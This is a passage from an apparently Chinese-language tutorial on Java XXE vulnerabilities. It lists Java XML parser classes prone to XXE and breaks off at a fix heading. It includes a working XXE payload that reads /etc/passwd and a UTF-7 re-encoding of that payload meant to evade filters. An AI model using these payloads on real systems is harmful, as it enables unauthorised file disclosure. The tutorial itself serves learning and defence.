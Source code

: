 可能支持的协议有`http/https/ftp/file/jar/netdoc/mailto/gopher`等但是不同版本支持的协议不一致，具体可以在具体java版本下的`sun.net.www.protocol`包下看到，这里不多讲了



### 编码绕过

比如使用utf7

原来

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE ANY [
  <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```

转换后

```xml
<?xml version="1.0" encoding="utf-7" ?>
+ADwAIQ-DOCTYPE ANY +AFs-
  +ADwAIQ-ENTITY f SYSTEM +ACI-file:///etc/passwd+ACIAPg-
+AF0APg-
+ADw-x+AD4AJg-f+ADsAPA-/x+AD4-
```



## 一些可能造成xxe的组件及修复方式

```java
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
DocumentHelper.parseText
DocumentBuilder
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
rg.xml.sax.SAXParseExceptionpublicId
```

### DocumentBuilder
